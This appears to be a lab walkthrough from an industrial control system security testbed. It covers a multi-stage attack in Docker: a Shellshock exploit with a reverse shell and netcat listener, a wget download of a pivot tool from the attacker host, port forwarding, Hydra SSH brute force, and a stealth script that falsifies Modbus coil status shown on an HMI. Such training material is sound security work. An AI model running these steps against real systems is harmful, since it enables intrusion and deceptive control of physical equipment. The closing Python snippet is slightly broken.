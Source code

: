 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

- Use the attacker node:
```bash
docker exec -ti Attacker-Node bash
```

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. 

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques. It is worth noting that the shell upgrade has already been performed. For those interested in understanding how to execute the shell upgrade, detailed guidance can be found [this link](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

- Establish a webserver:
```bash
python3 -m http.server
```
![Webserver](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/webserver.png "Figure: Webserver")

- Downloading the required tool:
```bash
wget http://10.0.1.100/port-forward.py
```
![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download-tool.png "Figure: Tool Download")

- Port Forwarding:
```bash
python port-forward.py 2222:10.0.1.77:22
```
![ Port Forwarding](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/port-forwarding.png "Figure: Port Forwarding")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

- SSH Bruteforce:
```bash
hydra -L user.txt -P pass.txt -t 6 ssh://10.0.1.66:2222
```
![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce-ssh.png "Figure: SSH Bruteforce")

- SSH Connection:
```bash
ssh -P 2222 admin@10.0.1.66
```
![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

- Copy the modification script to the I-Gateway:
```bash
scp -P 2222 coilModificationStealth.py admin@10.0.1.66:/home/admin/ #Attacker Node
```
- Execute the script on the I-Gateway:
```bash
python3 coilModificationStealth.py #I-Gateway
```

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![HMI](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: HMI")

- Use the attacker node:
```bash
docker exec -ti Test-Node bash
```
- Check coils status
```bash
from pymodbus.client import ModbusTcpClient  # pylint: disable-msg=E0611
client = ModbusTcpClient('127.0.0.1', 502)
print(readSPLC = splc.read_coils(8, 25).bits)
```

![Coils](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Coils")

